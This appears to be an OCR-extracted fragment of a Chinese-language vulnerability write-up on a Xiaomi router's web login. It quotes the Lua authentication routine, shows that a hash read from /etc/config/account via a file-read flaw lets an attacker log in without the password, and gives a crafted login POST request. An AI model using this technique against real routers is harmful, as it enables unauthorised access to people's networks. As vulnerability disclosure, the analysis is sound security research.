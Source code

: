 *   验证用户登陆的后端过程

    调用`XQSecureUtil.checkUser`函数

    ```
    function checkUser(user, nonce, encStr)

    – 从xiaoqiang 配置文件中读取信息

    local password = XQPreference.get(user, nil, “account”)

    if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then

    if XQCryptoUtil.sha1(nonce…password) == encStr then

    return true

    end

    end

    XQLog.log(4, (luci.http.getenv(“REMOTE_ADDR”) or “”)…" Authentication failed", nonce, password, encStr)

    return false

    end 
    ```

    跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

    `checkUser`函数判断等式为(encStr为参数oldPwd)

    ```
    sha1(nonce + sha1(密码 + ‘a2ffa5c9be07488bbb04a3a47d3c5f6a’))
    ```

`sha1(nonce + accountStr)` 

则

```
accountStr == sha1(密码 + ‘a2ffa5c9be07488bbb04a3a47d3c5f6a’) 
```

故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1

Host: 192.168.31.1 `username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248` 
```

### poc

> arbitrary_file_read_vulnerability.py

![image](../img/f471043a317320194c221f10381044da.png)
